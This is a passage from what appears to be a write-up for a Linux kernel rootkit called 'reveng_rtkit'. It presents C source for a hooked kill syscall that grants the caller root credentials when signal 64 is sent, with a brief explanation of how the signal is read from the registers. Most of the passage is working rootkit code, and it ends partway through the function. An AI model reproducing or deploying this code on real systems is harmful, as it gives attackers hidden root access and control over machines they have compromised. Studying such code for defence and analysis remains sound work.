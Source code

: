 ```c

	// Updating ids to 0 i.e. root
	root->uid.val = root->gid.val = 0;
	root->euid.val = root->egid.val = 0;
	root->suid.val = root->sgid.val = 0;
	root->fsuid.val = root->fsgid.val = 0;

	// Setting the updated value to cred structure
	commit_creds(root);
}


static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
{
	int sig = (int) pt_regs->si;

	switch (sig)
	{
	case GET_ROOT:
    		printk(KERN_INFO "[*] reveng_rtkit: From rootkit with love :)\t-> Offering root shell!!");
    		/*
	  		In someway system() function alike kernel function present in linux kernel programming
	  		is required. in order to execute bash/sh shell then grant root shell as fish shell (in my
	  		case) was alloted a root shell, but bash/sh shell did the job.
    		*/
    		set_root();
    		break;
	default:
    		return orig_kill(pt_regs);
	}
	return 0;
}
```
If you visit [<ins>Linux Syscall Reference</ins>](https://syscalls64.paolostivanin.com/), and search for _sys_kill_ you can see that it depends on 3 registers, **rax** (which contains the syscall id), **rdi** (which contians the file descriptor) and **rsi** (which is the location, where the passed arguments is to be stored). 
                  
So here, we are only concerned about **rsi** register as we are interested in the arguments that are passed. We can see that we indeed need `int sig` to be placed in ***si*** register.

So, that means:
```c
#define GET_ROOT 64

static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
{
	int sig = (int) pt_regs->si;

	switch (sig)
	{
		case GET_ROOT:
			printk(KERN_INFO "[*] reveng_rtkit: From rootkit with love :)\t-> Offering root shell!!");
			/*
				In someway system() function alike kernel function present in linux kernel programming
				is required. in order to execute bash/sh shell then grant root shell as fish shell (in my
				case) was alloted a root shell, but bash/sh shell did the job.
			*/
			set_root();
```